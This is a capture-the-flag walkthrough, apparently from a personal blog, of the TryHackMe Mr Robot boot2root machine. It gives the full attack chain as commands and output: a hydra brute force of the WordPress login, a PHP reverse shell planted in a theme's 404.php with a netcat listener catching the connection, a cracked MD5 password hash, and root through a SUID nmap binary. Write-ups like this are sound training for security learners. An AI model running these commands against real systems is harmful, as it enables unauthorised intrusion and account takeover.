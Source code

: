 # Mr. Robot CTF Walkthrough

a walkthrough of the popular Mr. Robot themed boot2root machine. in this box, you'll learn how to exploit wordpress, crack hashes, and escalate privileges  

# Introduction

**Name:** Mr Robot CTF  
**Challenge type:** Boot2Root machine  
**Rated difficulty:** Medium  
**Link:** https://tryhackme.com/room/mrrobot  

# Nmap Scan Results

we will start by scanning open ports on the target machine, here's what nmap found:  

```
PORT    STATE  SERVICE  VERSION
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 02:6E:76:1C:2E:07 (Unknown)
```

ports 80 and 443 are open running Apache, but neither site has a proper title or header  

# Enumerating HTTP and HTTPS  

interacting with the HTTP and HTTPS services didn't immediately reveal much. here's a look at `robots.txt` which caught my attention:  

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

looks like we found the first key file `key-1-of-3.txt` and a wordlist named `fsocity.dic`.  

downloading the wordlist with wget:  

```bash
wget http://10.10.99.69/fsocity.dic
```

the file contains tons of duplicate words:  

```
angela
angela
angela
...
```

so I cleaned it up by removing duplicates:  

```bash
sort fsocity.dic | uniq -d > clean-dic.txt
```

Running gobuster on the site revealed it's running Wordpress:  

```
/wp-content           (Status: 301)
/admin                (Status: 301)
/audio                (Status: 301)
/intro                (Status: 200)
```

accessing `/wp-login.php` gave me a login page where username enumeration was possible.  

![Username enumeration](../images/thm/mrrobot/username-enum.png)  

confirmed `elliot` is a valid username, while guessing main Mr. Robot characters  

![Valid username elliot](../images/thm/mrrobot/valid-user.png)  

next, I brute forced the login using hydra with the cleaned dictionary and username `elliot`:  

```bash
hydra -l elliot -P clean-dic.txt 10.10.99.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username"
```

`hydracode>` found a valid password for elliot!  

```
elliot:XXXXXXX
```

after logging in, going to **Appearance → Editor** gives us a form to edit theme files  

![Wordpress theme editor](../images/thm/mrrobot/theme-editor.png)  

I edited the `404.php` template with a PHP reverse shell (from pentestmonkey's repo), adding my IP and port.  

after updating the `404.php` with the reverse shell code.  

![Reverse shell injected](../images/thm/mrrobot/reverse-shell-injected.png)  

remember to start your listener:  

```bash
nc -lvnp 1337
```

visiting a non-existent page triggers the reverse shell, and I got a shell as user daemon:  

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.4.7.139] from (UNKNOWN) [10.10.99.69] 39735
$ whoami
daemon
```

# Privilege Escalation  

after looking around for a bit, inside `/home/robot` I found two files:  

```
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

I couldn't read the second key, but I could read the password hash:  

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

I took the hash to CrackStation and got the password  

![Hash cracked on CrackStation](../images/thm/mrrobot/hash.png)  

trying to switch user with `su robot` initially failed because the shell was unstable:  

```
su: must be run from a terminal
```

I stabilized the shell with:  

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

after that, we can switch to the robot user successfully.  

# Getting Root  

after more enumeration, I didn't find much at first. then I checked for SUID binaries:  

```bash
find / -perm -u=s -type f 2>/dev/null
```

```
/bin/ping
/bin/umount
/bin/mount
...
/usr/local/bin/nmap
...
```

if you've done Boot2Root machines before, you know nmap with SUID is unusual. checking GTFOBins confirmed it.  

![GTFOBins nmap exploit](../images/thm/mrrobot/gtfobins.png)  

exploiting the SUID nmap binary to spawn a root shell:  

```bash
nmap --interactive
```

```
nmap> !sh
# whoami
root
```

this machine was fun, the final key is in `/root`.  

© 2025 ax0ryn. created with coffee  
